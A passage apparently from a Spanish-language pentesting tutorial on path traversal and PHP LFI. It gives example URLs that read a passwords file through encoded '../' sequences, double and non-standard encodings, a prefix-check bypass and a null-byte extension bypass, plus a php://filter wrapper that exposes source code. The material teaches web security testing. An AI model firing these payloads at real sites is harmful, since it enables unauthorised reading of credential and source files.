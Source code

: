 ```http
https://myshop.com/image?filename=%2e%2e%2f%2e%2e%2fbank_account_passwords.txt
```

Lo que hacemos en la URL, es sustituir `../` por su codificación en URL encode que es `%2e%2e%2f` , en algunas ocasiones podemos usar doble codificación para que surja efecto:

```http
https://myshop.com/image?filename=%252e%252e%252f%252e%252e%252fbank_account_passwords.txt
```

{% hint style="info" %}
Se pueden utilizar codificaciones no estandarizadas para dificultar la detección:

```http
https://myshop.com/image?filename=..%c0%af..%c0%afbank_account_passwords.txt
```

En el caso de doble codificación:

```http
https://myshop.com/image?filename=..%ef%bc%8f..%ef%bc%8fbank_account_passwords.txt
```
{% endhint %}

### Validación ruta

En esta ocasión, algunos programadores, deciden validar si el inicio de la ruta del archivo es correcta, pero podemos hacer un bypass muy sencillo usando `../`:

```http
https://myshop.com/image?filename=/var/www/html/Web/Content/Assests/../../bank_account_passwords.txt
```

### Null Byte

En este caso, el desarrollador obliga a que la extension del archivo sea por ejemplo `.png`, pero con un null byte `%00` podemos evitar esta validación, ya que actua como final de la ruta del archivo, y aunque la aplicación vea que tiene la extension, el sistema no lo interpretará:

```http
https://myshop.com/image?filename=../../bank_account_passwords%00.png
```

### Path Truncation



## LFI Wrappers (PHP)

En algunos casos, después de explotar un LFI o un Path Traversal, puedes hacer uso de los PHP Filters para ver el código PHP, ya que de forma normal, la web lo interpreta y no podrías verlo, los PHP Filters también se usan en casos en los que el archivo a visualizar es muy grande, por lo cual se convierte a Base 64 y de decodifica en la maquina:

```php
php://filter/convert.base64-encode/resource=index.php
```
